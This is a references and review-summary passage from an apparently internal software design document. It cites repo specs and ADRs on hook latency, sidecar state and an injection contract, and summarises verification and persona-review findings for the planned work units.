- `docs/superpowers/specs/2026-07-25-mindnetwork-architecture-decomposition.md`
- `docs/superpowers/specs/2026-07-25-mn0-parallel-output-durability-design.md`
  — the runlog artifact contract this slice writes into
- `docs/prds/2026-07-21-002-rust-tool-interception-prd.md` §0.2 — live-measured
  hook latency and the loose-CI-bound precedent for timing assertions
- `docs/adr/0004-queue-and-inject-thermo-nuclear-review.md` — why sidecar state
  is re-read at run time
- `docs/adr/0005-superpowers-as-default-methodology-spine.md`
- No external research. The option set is settled (stdlib-only), and the repo
  carries a direct precedent for every mechanism — `research.run_experiment`
  for capped subprocess capture, `promptgate` for pid-scoped sidecar writes,
  `enrich.extend_hook_context` for the injection contract, `roadmap`/`sop` for
  registry folds and `ledger_body`.
- Planning verification: 18 claimed defects checked by five parallel verifiers
  — 13 confirmed, 5 partial, 0 refuted. Three claims were narrowed.
- Document review: six personas, 39 findings. Four independently found that no
  unit built the injector (now U9); two independently found U1's exploit claim
  false and `shlex` POSIX-mode path mangling.
